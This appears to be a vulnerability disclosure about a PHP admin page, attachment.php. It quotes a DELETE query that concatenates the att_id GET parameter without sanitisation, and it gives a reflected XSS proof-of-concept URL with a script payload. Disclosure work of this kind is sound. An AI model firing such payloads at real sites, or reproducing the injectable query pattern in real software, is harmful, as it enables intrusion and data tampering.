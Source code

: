 First of all, we can see that the attachment.php is loaded with a lot of functions in the admin directory, and we find that the del function specifies the variable act=del with a $_REQUEST function

![1](https://github.com/ysl1415926/cve/assets/138963581/9782bd47-91d3-44b8-aace-6740ffb7c20a)
![2](https://github.com/ysl1415926/cve/assets/138963581/de1ff1ab-497e-4216-aa35-a2af91daa13b)

` elseif($_REQUEST['act'] == 'del')
 {
 	$sql = "DELETE FROM ".table('attachment')." WHERE att_id = ".$_GET['att_id'];
 	if(!$db->query($sql)){
 		showmsg('删除附加属性出错', true);
 	}
 	showmsg('删除附加属性成功','attachment.php', true);
 }`

Then in the following code, you can see a SQL statement passing a att_id parameter in GET mode

![3](https://github.com/ysl1415926/cve/assets/138963581/7ba28355-00d6-412e-ac11-b03486d0a7c8)


`$sql = "DELETE FROM ".table('attachment')." WHERE att_id = ".$_GET['att_id'];`

At that time, it was supposed to be testing SQL injection, but he would print an error message on the next line

![4](https://github.com/ysl1415926/cve/assets/138963581/b4b79073-de8f-41d9-b42d-58bcf171f1cd)


This allows us to implement XSS attacks with faulty parameters

![5](https://github.com/ysl1415926/cve/assets/138963581/999237dd-4d5f-42aa-af8c-7220c232c3e0)


`if(!$db->query($sql)){
 		showmsg('删除附加属性出错', true);
 	}
 	showmsg('删除附加属性成功','attachment.php', true);`

The test was successful

poc：/admin/attachment.php?act=del&att_id=<script>alert(1)</script>

![6](https://github.com/ysl1415926/cve/assets/138963581/3283a4d5-8562-4db1-bedf-1b4989270033)
